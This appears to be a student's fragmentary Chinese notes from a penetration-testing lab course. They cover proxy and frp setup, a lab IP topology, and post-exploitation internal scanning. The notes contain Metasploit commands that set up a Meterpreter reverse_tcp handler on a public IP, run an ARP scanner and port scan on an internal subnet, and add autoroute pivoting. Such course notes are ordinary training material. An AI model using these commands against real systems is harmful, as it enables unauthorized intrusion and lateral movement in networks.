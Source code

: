 【】Socks主机设置为 kali 上的那个与 PC共用网段的IP：192.168.233.128: 1888

![day03下午-frp？firefox代理设置 20210804170933](vx_images/504552157635.png)

HTTP代理：
![20210804153359](vx_images/3122405155635.png)


----------------------------------------

![Python -？ simpleHTTPServer 8080 启动WEB服务【】](vx_images/222814225413.png)

----------------------------------------

# 拓扑连接与IP
PC:--4个IP:
VMware: 192.168.221.1/24,  192.168.233.1/24  【nat ???】
VPN连接到靶机1：10.2.1.88/23
WLAN: 192.168.8.238

VMware Kali: 
192.168.233.18/24
10.2.0.213/32   【】两个VPN连到同一个靶机，处于不同网段的IP ???

### 5.3节

#### 小工具直接传肉机上
arp-scan(x64).exe -t 192.168.1.0/24    【前面命令需要加引号，不然报错！见day03.txt】

#### 大工具


内网穿透，从攻击机内网后渗透方式扫描  【】????


use exploit/multi/handler    【侦听模块】
set payload windows/x64/meterpreter/reverse_tcp   【】
set lhost 47.111.129.24   【章，华为云，ecs服务??】
set lport 8888
run

run post/windows/gather/arp_scanner RHOSTS=192.168.1.0/24

【章老师：演示时，外网地址47.XXXX，与作业靶场不同，说是叫VPS ??? 我们靶场实验时，VPN连接的地址 183 ... 】

### 5.5节 端口扫描

在5.3节主机扫描的基础上！

---------------------------
msf模块： aux.../portscan/tcp  【】 

【 ??? 】手动加动态路由：--- sessions
sessions 1
background
search autoroute ?
常规 set ...
autoroute 拍照
